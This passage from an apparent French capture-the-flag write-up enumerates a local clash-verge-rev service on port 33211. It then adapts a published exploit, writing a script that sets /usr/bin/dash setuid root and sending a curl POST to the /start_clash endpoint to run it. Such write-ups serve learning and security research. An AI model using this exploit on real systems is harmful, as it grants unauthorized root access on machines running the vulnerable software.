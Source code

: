 ```console
LISTEN                      0                           128                                                  127.0.0.1:33211                                                  0.0.0.0:*                                                      
LISTEN                      0                           128                                                    0.0.0.0:22                                                     0.0.0.0:*                                                      
LISTEN                      0                           128                                                       [::]:22                                                        [::]:*                                                      
LISTEN                      0                           511                                                          *:80                                                           *:* 
```

On a un port en plus, le `33211`. Bizarrement, je ne trouve pas ce port mentionné dans le répo sur Github mais on le retrouve dans certaines issues.

Je comprends que c'est un service REST, mais après énumération avec `ffuf`, je n'ai trouvé qu'un endpoint `version`.

En lisant le code, j'ai l'impression que je devrais trouver des endpoints `configs` ou `proxies` mais la réponse par défaut est toujours un 405. J'ai essayé avec la méthode HTTP `POST` et ce n'est pas mieux.

Vu la difficulté indiquée pour le challenge, ça semblait étrange de devoir investiguer autant. Je me suis donc tourné vers différents moteurs de recherche (duckduckgo, google, github).

D'abord, j'ai trouvé ce lien, mais c'était pour le moins flou. Il est quand même question d'une RCE :

[我是如何用ai帮我快速复现clash-verge-rev 0day的-魔法少女雪殇](https://www.snowywar.top/4595.html)

Via Github, j'ai trouvé cet article de blog :

[Exploiting Clash for Windows - 开放代理有多危险? · Ajax's Blog](https://aajax.top/2024/07/24/ExploitingCFW/#%E6%95%85%E4%BA%8B%E4%BB%8D%E5%9C%A8%E7%BB%A7%E7%BB%AD)

Il montre l'exploitation via un endpoint `start_clash`. L'exemple est pour Windows, alors j'ai adapté :

```console
wall@greatwall:~$ which dash
/usr/bin/dash
wall@greatwall:~$ echo -e '#!/bin/sh\nchmod 4755 /usr/bin/dash\n' > /tmp/script.sh
wall@greatwall:~$ chmod 755 /tmp/script.sh
wall@greatwall:~$ curl -X POST \
  http://127.0.0.1:33211/start_clash \
  -H 'Content-Type: application/json' \
  -d '{
    "core_type":"verge-mihome",
    "bin_path":"bash",
    "config_dir":"",
    "config_file":"/tmp/script.sh",
    "log_file":"/tmp/yolo.log"
  }'
{"code":0,"msg":"ok","data":null}
wall@greatwall:~$ ls -al /usr/bin/dash 
-rwxr-xr-x 1 root root 125640 Jan  5  2023 /usr/bin/dash
wall@greatwall:~$ cat /tmp/yolo.log
Spawning process: bash -d  -f /tmp/script.sh
```
